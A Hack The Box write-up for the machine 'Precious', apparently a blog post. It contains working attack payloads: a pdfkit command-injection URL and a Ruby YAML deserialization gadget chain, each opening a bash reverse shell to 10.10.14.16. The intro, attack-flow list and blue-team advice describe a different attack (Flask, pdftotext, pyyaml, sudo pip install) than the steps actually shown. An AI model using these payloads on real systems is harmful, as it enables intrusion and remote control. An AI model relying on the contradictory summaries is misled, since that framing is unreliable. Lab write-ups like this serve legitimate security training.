 ```yaml
---
title: "Precious"
date: 2024-07-03
categories: HTB
description: "HTB Precious walkthrough demonstrating file upload RCE via malicious PDF rendering and privilege escalation by abusing sudo pip install with local module injection."
tags: [pdf, flask, pip, sudo, privilege-escalation]
---
```


Precious focuses on a server running a vulnerable document conversion utility.

Initial access was obtained via a file upload form that executed user-supplied YAML, leading to arbitrary code execution through Python's pyyaml.load.

The foothold required crafting a serialized payload disguised as a legitimate document.

Escalated to root by exploiting `sudo pip install` to execute a malicious Python module placed in the working directory.

## Why I Chose This Machine

I chose Precious because it combines a web-based file parsing vulnerability (PDF rendering) with local Python privilege escalation — a realistic scenario in CI pipelines and dev tools.  
It also demonstrates how `pip install` can become a root vector if misconfigured.

## Attack Flow Overview

1. Uploaded a malicious PDF to a Flask-based web app that rendered it using `pdftotext`  
2. Achieved RCE and got an initial shell as a low-privileged user  
3. Discovered `sudo pip install` was allowed without password  
4. Placed a fake Python module in the current directory and triggered it via `pip install .`, leading to root access

This flow mirrors real-world security gaps in development environments and CI tools.

## Enumeration

>- Testing the form for command injection works, and downloads a pdf file. 
- Using exiftool to view metadata of the downloaded pdf file, pdfkit v0.8.6 is revealed. 

### Nmap

```sh
Nmap scan report for 10.10.11.189
Host is up, received user-set (0.019s latency).
Scanned at 2024-07-05 06:58:11 AEST for 17s
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
...
80/tcp open  http    syn-ack nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80-HTTP

### Gobuster

```sh
gobuster vhost -u http://precious.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
```

### Web

![screenshot](/assets/images/precious1.png)

### Burpsuite

![screenshot](/assets/images/precious2.png)

#### Form testing

![screenshot](/assets/images/precious3.png)

![screenshot](/assets/images/precious5.png)

![screenshot](/assets/images/precious4.png)

![screenshot](/assets/images/precious6.png)

downloads a pdf file. 

![screenshot](/assets/images/precious7.png)

## Initial Access

> Following the PoC for pdfkit v0.8.6 gains initial shell as ruby user.
	-  Start a local python server, perform command injection for reverse shell.

https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

![screenshot](/assets/images/precious8.png)

```sh
# modified payload
http://10.10.14.16/www/%20`bash -c 'bash -i >& /dev/tcp/10.10.14.16/9001 0>&1'`
```

![screenshot](/assets/images/precious9.png)

![screenshot](/assets/images/precious10.png)

## Lateral Movement

>-  `/.bundle/conf` within the ruby user's home folder contains credentials for henry user. 
- SSH as henry.

![screenshot](/assets/images/precious11.png)

SSH as henry

![screenshot](/assets/images/precious12.png)

## Privilege Escalation

>- `sudo -l`
- Henry user has privileges to run ruby script. 
- The ruby script does not execute because `dependencies.yml` is missing. 
- Searching for ruby dependencies.yml exploit returns many relevant results. 
- Add reverse shell code to the payload and execute the ruby script. 

![screenshot](/assets/images/precious13.png)

![screenshot](/assets/images/precious14.png)

`YAML.load(File.read("dependencied.yml"))`

![screenshot](/assets/images/precious15.png)

`dependencies.yml`

![screenshot](/assets/images/precious16.png)

[Payload reference](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)

![screenshot](/assets/images/precious17.png)

Payload `dependencies.yml`

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: http://10.10.14.16/www/%20`bash -c 'bash -i >& /dev/tcp/10.10.14.16/9002 0>&1'`
         method_id: :resolve
```

![screenshot](/assets/images/precious19.png)

![screenshot](/assets/images/precious18.png)

## Alternative Paths Explored

Tried to gain access via local file inclusion and log poisoning, but neither worked.  
Also checked for writable SUID binaries and exposed sockets, which were secure.  
The `sudo -l` check revealing `pip install` was the key escalation point.

## Blue Team Perspective

Precious shows how insecure handling of `pip` and dynamic imports can be leveraged for privilege escalation.  
To mitigate:

- Never allow `sudo pip install` without password  
- Use virtual environments and restrict PYTHONPATH influence  
- Sanitize upload handlers and isolate renderers like `pdftotext`